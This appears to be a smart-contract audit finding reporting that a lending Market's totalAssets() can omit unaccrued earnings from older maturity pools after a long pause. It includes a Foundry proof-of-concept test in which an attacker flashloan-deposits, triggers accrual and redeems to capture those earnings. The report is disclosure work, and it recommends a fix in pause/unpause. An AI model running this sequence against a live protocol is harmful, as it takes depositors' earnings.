 Bouncy Emerald Reindeer

medium

# Market#totalAssets: unassignedEarnings from earlier maturities might have not been accrued, allowing attacker to steal the unaccrued earnings.

## Summary
Due to the fact that some unassignedEarnings may have not been accrued since the lastAccrual, `totalAssets()` adds the calculated accruedEarnings, starting from the `latestMaturity`.
The issue is that some maturity pools before the `latestMaturity` might have not been accrued(this is very likely to happen after a >4weeks pause).
The impact is that vault depositors will lose some earnings they were entitled to if they redeem their vault shares before calling a function that accrues earnings in those maturity pools.
Also, attacker can, in a single transaction, deposit a flashloan, accrue the earnings, and redeem, effectively stealing the unaccruedEarnings from those maturity pools.

## Vulnerability Detail
The amount of assets one can redeem his shares for is dependent on the totalAssets:

```solidity
function _convertToAssets(uint256 shares, Math.Rounding rounding) internal view virtual returns (uint256) {
    return shares.mulDiv(totalAssets() + 1, totalSupply() + 10 ** _decimalsOffset(), rounding);
}
```

Due to the fact that there could be some earnings from each maturity pool that has not yet been accrued since the last accrual, `totalAssets` includes the calculated accruals(backupEarnings) starting from the latest maturities.

The issue is, unassignedEarnings from earlier maturities(i.e. before latestMaturity) might have not been accrued. A pretty good example of what can cause this scenario is if a market gets paused for more than 4 months.

An attacker can flashloan deposit, accrue the earnings, and then redeem the shares, effectively stealing all of the interest that got accrued in that maturity.

Here is a PoC which can be added to Market.t.sol file:

```solidity
  function testUserFlashloanToStealAccruedFees() external {
    ERC20 asset = market.asset();
    //Alice represents all users that borrowed at a maturity
    deal(address(asset), ALICE, 1_000_000 ether);

    //Simulate flashloan or pretend as whale
    deal(address(asset), BOB, 1_000_000 ether);
    uint bobBalanceBefore = asset.balanceOf(BOB);
    //POC starts
    vm.startPrank(ALICE);
    asset.approve(address(market), 1_000_000 ether);
    uint aliceShares = market.deposit(30_000 ether, ALICE);
    market.borrowAtMaturity(FixedLib.INTERVAL, 15_000 ether, 20_000 ether, ALICE, ALICE);
    vm.stopPrank();

    vm.warp(FixedLib.INTERVAL / 2);

    //normal operations accrueEarnings before protocol gets paused for >INTERVAL period
    vm.prank(ALICE);
    market.depositAtMaturity(FixedLib.INTERVAL, 1, 1, BOB);

    //fastforward 6 weeks(+1 second). Market was probably paused during this period
    vm.warp((FixedLib.INTERVAL / 2) + 6 weeks + 1 seconds);

    //Bob should not receive any interest cause he didn't deposit before now. The only person that should receive interest is Alice cos she is the only one that deposited to floating pool
    //In a single transaction, Bob flashloan, deposit,accrueEarnings, withdraw to steal all the fees for that maturity
    vm.startPrank(BOB);
    asset.approve(address(market), 1_000_000 ether);
    //deposit flashloan of 900_000e18 base tokens
    uint bobShares = market.deposit(900_000 ether, BOB);
    //accrueEarnings by repaying dust
    market.repayAtMaturity(FixedLib.INTERVAL, 1, 1, ALICE);
    //redeem tokens
    market.redeem(bobShares, BOB, BOB);
    vm.stopPrank();

    uint bobBalanceAfter = asset.balanceOf(BOB);

    console.log("Bob balance before: ", bobBalanceBefore);
    console.log("Bob balance after: ", bobBalanceAfter);
  }

```

## Impact
After a >4 weeks market pause, attacker would be able to steal all unassignedEarnings in the maturity pool that was ongoing as at when the market got paused.

## Code Snippet
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L932-L941
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L945

## Tool used

Manual Review

## Recommendation

- pause() should take note of the current latestMaturity(s)
- unpause() should accrueEarnings in the maturity pool noted by pause()
